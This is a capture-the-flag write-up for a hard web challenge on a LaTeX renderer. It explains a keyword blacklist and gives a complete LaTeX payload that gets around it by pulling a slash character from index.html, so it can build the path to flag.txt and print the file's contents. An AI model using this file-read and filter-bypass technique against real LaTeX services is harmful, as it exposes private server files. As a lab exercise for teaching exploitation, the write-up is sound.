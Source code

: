 
- **Challenge Name:**  Latex
- **Category:** Web
- **Difficulty:** Hard
- **Writeup Author:** HanzalaAbbasi 
- **Challenge Author(s):** HanzalaAbbasi


## Description
Explore the maze of LaTeX's PDF making and HTML data pulling to find the flag

# LaTeX Renderer Exploitation Guide

## Introduction
The website appears to be a renderer for LaTeX code. Writing LaTeX and clicking "Generate PDF" gives a link to the rendered PDF. The output LOG of the LaTeX renderer will also be displayed.

![image](https://github.com/user-attachments/assets/8e88c666-a36a-4ddd-afd9-77e61bef6379)


## PDF Link
While copying and pasting the provided link into your browser may lead to a PDF document, it may not contain the information you're expecting.

![image](https://github.com/user-attachments/assets/968a6aa2-6d20-47ef-8da4-e42a8dbdb730)


## Finding the Flag
Looking at the source HTML indicates that we need to read the flag from a file found in `/home/Desktop/trustline/flag/flag.txt`.

![image](https://github.com/user-attachments/assets/f308e2f7-d6c8-474a-98c5-05e6e1a35c19)


## Blacklisted Characters Issue
I'm currently encountering an issue where certain characters are being masked, making it difficult to read the flag.

![image](https://github.com/user-attachments/assets/7e03a4e2-9bcc-46b9-b0bb-50ff8efd7356)

## Crafting LaTeX Code to Bypass Blacklisted Characters
Examining the backend code logic, specifically the highlighted section in blue, we can see that it uses a regular expression with `preg_match` to validate the `$CONTENT` variable. This validation checks for the presence of blacklisted commands such as "input", "include", "", "/", "write", "slash", or "^^". If any of these commands are found, the code outputs the message "BLACKLISTED commands used".

To create LaTeX code that bypasses blacklisted characters, it's crucial to have an in-depth understanding of LaTeX. This is because certain characters are blocked which are used to read the files, and without them, rendering a flag might not be possible.

![image](https://github.com/user-attachments/assets/80e01229-f32e-469f-a7ef-02149ac6ab97)

## LaTeX Code Snippet
The below LaTeX code snippet is crafted to interact with an HTML file (`index.html`), extracting a specific character from a designated line within the file. Subsequently, this character serves as a crucial component in constructing a file path leading to another file (`flag.txt`). Let's delve into the code:

### Document Class and Packages:

- **`\documentclass{minimal}`**: This declaration assigns the document class as "minimal," tailored to yield a concise output.
- **`\usepackage{xstring}`**: Importing the **`xstring`** package furnishes the script with functionalities for string manipulation.

### Defining Directory Components:

- **`\def\a{home}`**, **`\def\b{Desktop}`**, **`\def\c{trustline}`**, **`\def\d{flag}`**, **`\def\e{flag.txt}`**: These directives establish variables encapsulating segments of the file directory path leading to flag.txt.

### Reading HTML File:

- **`\newread\file`**: This command initializes a file reading operation.
- **`\immediate\openin\file=index.html`**: Opening index.html for reading.
- **`\immediate\read\file to\fileline`**: Each line of the file is read into the macro **`\fileline`**.
- The initial six **`\immediate\read\file to\fileline`** commands handle the first six lines of index.html.
- **`\StrMid{\fileline}{22}{22}[\s]`**: Extracting the 22 character from the sixth line of index.html, storing it in the macro **`\s`**.

The sequence unfolds as follows:

- The first **`\immediate\read\file to\fileline`** reads the first line.
- The second **`\immediate\read\file to\fileline`** reads the second line.
- The third **`\immediate\read\file to\fileline`** reads the third line.
- The fourth **`\immediate\read\file to\fileline`** reads the fourth line.
- The fifth  **`\immediate\read\file to\fileline`** reads the fifth line.
- The six  **`\immediate\read\file to\fileline`** reads the sixth line.
- Consequently, the **`\StrMid{\fileline}{22}{22}[\s]`** command targets the 22 character from the sixth line of the index.html file, which is "/". We can utilize this character to construct our path and **circumvent the blacklisted characters filter.**

![image](https://github.com/user-attachments/assets/a5743002-0922-4e8f-8b7d-66a176e7de27)


## Word Count Verification
The word count for the sixth line is shown below.


![image](https://github.com/user-attachments/assets/63e71437-aa67-4acf-96b8-f06ec79ea093)


```
\documentclass{minimal}
\usepackage{xstring}

\def\a{home}
\def\b{Desktop}
\def\c{trustline}
\def\d{flag}
\def\e{flag.txt}

\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{22}{22}[\s]
\immediate\message{\s}
\immediate\closein\file

\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document} 

```

## Building File Path and Reading Content
Using the above LaTeX code will yield the flag.

![image](https://github.com/user-attachments/assets/f8a2ac1a-4d62-4572-96d9-e4e42572cb90)


## Verifying with Python Script
We can also run a Python script to verify that we have successfully obtained the flag through our LaTeX code.

![image](https://github.com/user-attachments/assets/a3f4fa2f-34c2-4138-9c7d-ee023de2f3f3)





## Flag
TRUSTLINE{YoU_HavE_SoLvED_LaTeX_HarD_ChAlleNGE_WeLl_DOne_Xd}


